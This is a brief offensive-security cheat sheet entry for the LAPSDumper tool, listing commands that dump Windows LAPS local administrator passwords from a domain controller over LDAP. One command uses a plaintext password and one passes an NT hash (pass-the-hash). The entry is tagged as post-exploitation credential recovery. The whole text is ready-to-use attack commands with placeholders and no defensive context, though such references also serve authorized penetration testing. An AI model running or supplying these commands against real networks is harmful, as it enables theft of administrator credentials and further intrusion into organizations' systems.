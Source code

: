 # LAPSDumper (imp)

% LAPS, windows, ldap

## dump LAPS (creds)
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
https://github.com/n00py/LAPSDumper
```bash
laps.py -u <user> -p <password> -d <domain> -l <dc_ip>
```

## dump LAPS (pth)
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
https://github.com/n00py/LAPSDumper
```bash
laps.py -u <user> -p :<nt_hash> -d <domain> -l <dc_ip>
```